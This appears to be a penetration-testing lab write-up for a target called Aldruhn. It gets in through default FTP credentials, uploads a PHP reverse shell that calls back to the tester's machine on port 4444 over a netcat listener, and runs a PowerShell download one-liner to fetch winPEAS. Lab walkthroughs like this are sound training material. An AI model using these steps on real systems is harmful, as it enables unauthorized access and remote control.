# Exercise 2

## Aldruhn

Host discovery – ip is 192.168.2.12



nmap basic scan



nmap full scan: nmap -Pn -A 192.168.2.12 \> fullscan.txt

Meanwhile, we visit website on ports 80 and 443

 

At tools section on the left hand side, there are various webpages. On FileZilla FTP lies an interesting image  


Default installation has username: newuser and password: wampp. Try to access ftp with this credential



It works!

Upload reverse shell. First, copy from webshells dir to our dir. Then, edit file so that ip and port directs to our machine ip netcat listen port and upload



(Our machine IP on the tun0 vpn adapter)

wget -O winrevshell.php <https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php> (saves the windows php reverse shell code into winrevshell.php)

nc -nlvp 4444

Edit winrevshell.php so that its payload will send data to our machine (10.8.0.108, port 4444)



Upload file onto target machine via ftp using the newuser credentials



Simply open the url 192.168.2.12/winrevshell.php and we get shell access



Download winPEAS from github into machine using a one-liner

powershell.exe (New-Object System.Net.WebClient).DownloadFile(' https://github.com/carlospolop/PEASS-ng/releases/download/20221023/winPEASx64.exe ','winPEAS.exe')

Seems like we cannot download straight from github. Instead, download winPEAS.exe onto our kali, start a python SimpleHTTPServer and download from there



powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.8.0.108/winpeas.exe ','winPEAS.exe')



Now run winpeas: winPEAS.exe



It says that we are already Administrator, so no need for privilege escalation
